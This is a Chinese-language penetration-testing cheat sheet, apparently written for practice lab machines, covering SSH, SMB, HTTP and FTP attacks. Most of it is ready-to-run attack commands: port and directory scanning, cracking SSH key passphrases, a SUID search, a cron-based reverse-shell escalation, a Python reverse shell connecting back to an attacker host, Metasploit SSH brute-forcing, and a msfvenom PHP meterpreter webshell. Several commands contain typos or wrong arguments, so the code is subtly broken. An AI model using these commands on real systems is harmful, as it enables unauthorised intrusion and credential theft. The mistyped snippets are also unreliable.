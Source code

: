 ## SSH

### 端口探测

```shell
nmap -sV ip #扫描ip开放的端口
nmap -A -v ip #探测靶场全部信息
nmap -O ip #探测靶场操作系统类型和版本
```



###  探测端口

```shell
dirb http://ip:port #获得ip端口下的隐藏文件
```



### SSH私钥登入

```shell
chmod 600 id_rsa #id_rsa为私钥文件
ssh -i id_rsa user@ip
```



### 破解SSH秘钥密码

```shell
chmod 600 id_rsa #id_rsa为秘钥文件
ssh2john id_rsa > isacrack #isacrack为自命名文件
zcat /usr/share/wordlists/rockyou.txt.gz | john --pipe --rules isacrack #利用字典破解isacrack信息
```



### 查找具有root权限的文件

```shell
-find / -perm -40000 2>/dev/null
```



### 溢出

运行程序，通常进行溢出跳转至/bin/sh操作，提升权限。



### 挖掘敏感信息

```shell
nikto -host ip #特别注意config等特殊敏感文件
```



### 扩大战果

```shell
whoami #查看当前用户
id #查看当前用户权限，同时查看根目录
su -root #获取root权限
cat /ect/passwd #查看所有用户的列表
cat /etc/group #查看用户组
find / -user 用户名 #查看属于某些用户的文件
/tmp #查看缓冲文件目录
```



### 深入挖掘

```shell
cat /etc/crontab #挖掘其他用户是否有定时任务，并查看对应的任务内容
```

如果在/etc/crontab下有某个用户的定时计划文件，但是具体目录下没有这个定时文件，可以自行创建反弹shell，然后netcat执行监听获取对应用户的权限。

如果有定时执行文件，可以切换到对应的目录，查看对应的权限，查看当前用户是否具有读写权限。



### 反弹shell

靶场代码

```python
#!/usr/bin/python
import os, subprocess, socket

s = socket.socekt(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("ip", "port"))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
```

攻击机netcat命令

```shell
nc -lpv 未占用端口
netstat -pantu #查看占用端口
```



### 背水一战

> 使用hydra、medusa等破解工具破解用户名对应的SSH服务。

利用cupp创建字典

```shell
git clone https://github.com/jeanphorn/common-password.git
chmod +x cupp.py
./cupp.py -i
```

使用metasploit破解SSH：

```shell
msfconsole
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set rhosts ip
msf auxiliary(ssh_login) > set username hadi
msf auxiliary(ssh_login) > set pass_file hadi.txt
msf auxiliary(ssh_login) > set threads 5
msf auxiliary(ssh_login) > set verbose true
msf auxiliary(ssh_login) > run
```

优化会话

```shell
msf auxiliary(ssh_login) > sessions -i 1
python -c "import pty; pty.spawn('/bin/bash')"
su -root
```



## SMB

### 信息探测

```sh
nmap -sV ip #挖掘开放服务
nmap -A -v -T4 ip #挖掘全部信息
```



### 弱点分析

```sh
smbclient -L ip
smbclient '\\ip\share$'
get 敏感文件
searchsploit samba版本号 #nmap -A -v ip //探测靶场全部信息
```



### HTTP

 1.浏览器查看网站

 2.扫描

```sh
dirb http://ip:port
```

 3.上传webshell

```sh
#制作webshell
msfvenom -p -php/meterpreter/reverse_tcp lhost=攻击机ip iport=4444 -f raw > ~/Desktop/shell.php
```



```sh
#启动监听
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 攻击机ip
set lport 4444
run
```



## FTP

### 信息探测

```shell
nmap -sV ip #扫描ip开放的端口
nmap -A -v ip #探测靶场全部信息
nmap -O ip #探测靶场操作系统类型和版本
```



### 发现漏洞

```sh
searchsploit ftp版本号 #nmap -A -v ip //探测靶场全部信息
```



### metasploit

找到集成到metasploit

![image-20211029223053775](statics/img/image-20211029223053775.png) 



## SQL

![image-20211030094808662](statics/img/image-20211030094808662.png)

打开敏感页面

![image-20211030094925907](statics/img/image-20211030094925907.png)

![image-20211030095003364](statics/img/image-20211030095003364.png)

![image-20211030095359009](statics/img/image-20211030095359009.png)

![image-20211030095545262](statics/img/image-20211030095545262.png)

![image-20211030095743682](statics/img/image-20211030095743682.png)

![image-20211030101109883](statics/img/image-20211030101109883.png)

![image-20211030101125322](statics/img/image-20211030101125322.png)

![image-20211030101218403](statics/img/image-20211030101218403.png)

![image-20211030101246505](statics/img/image-20211030101246505.png)
